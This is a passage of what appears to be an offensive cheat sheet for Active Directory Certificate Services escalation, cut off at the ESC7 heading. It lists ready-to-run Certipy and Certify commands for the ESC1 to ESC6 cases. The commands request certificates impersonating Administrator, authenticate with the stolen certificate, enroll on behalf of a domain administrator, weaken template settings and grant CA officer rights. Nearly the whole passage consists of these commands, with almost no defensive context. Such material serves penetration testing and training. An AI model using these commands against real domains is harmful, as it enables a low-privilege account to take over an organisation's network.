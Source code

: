 ### 🎯 ESC1-8 Attack Scenarios

#### ESC1 - Vulnerable Certificate Templates

```bash
# Linux - Certipy
certipy req -u lowpriv@domain.com -p password -target CA_SERVER -template VulnTemplate -alt Administrator@domain.com
certipy auth -pfx administrator.pfx -dc-ip DC_IP

# Windows - Certify
.\Certify.exe request /ca:CA_SERVER\CA_NAME /template:VulnTemplate /altname:Administrator
```

#### ESC2 - Any Purpose EKU

```bash
# Request certificate with Any Purpose EKU
certipy req -u lowpriv@domain.com -p password -target CA_SERVER -template AnyPurpose -alt Administrator@domain.com
```

#### ESC3 - Certificate Request Agent

```bash
# Use Certificate Request Agent to request on behalf of others
certipy req -u lowpriv@domain.com -p password -target CA_SERVER -template RequestAgent
certipy req -u lowpriv@domain.com -p password -target CA_SERVER -template User -on-behalf-of domain\\Administrator -pfx lowpriv.pfx
```

#### ESC4 - Vulnerable Certificate Template Access Control

```bash
# Modify vulnerable template
certipy template -u lowpriv@domain.com -p password -template VulnTemplate -save-old
certipy template -u lowpriv@domain.com -p password -template VulnTemplate -configuration SubjectAltRequireUPN=False -configuration SubjectAltRequireDNS=False
```

#### ESC5 - Vulnerable PKI Object Access Control

```bash
# Exploit vulnerable CA permissions
certipy ca -u lowpriv@domain.com -p password -dc-ip DC_IP -ca CA_NAME -add-officer lowpriv
```

#### ESC6 - EDITF_ATTRIBUTESUBJECTALTNAME2

```bash
# Exploit misconfigured CA flag
certipy req -u lowpriv@domain.com -p password -target CA_SERVER -template User -alt Administrator@domain.com
```

#### ESC7 - Vulnerable Certificate Authority Access Control
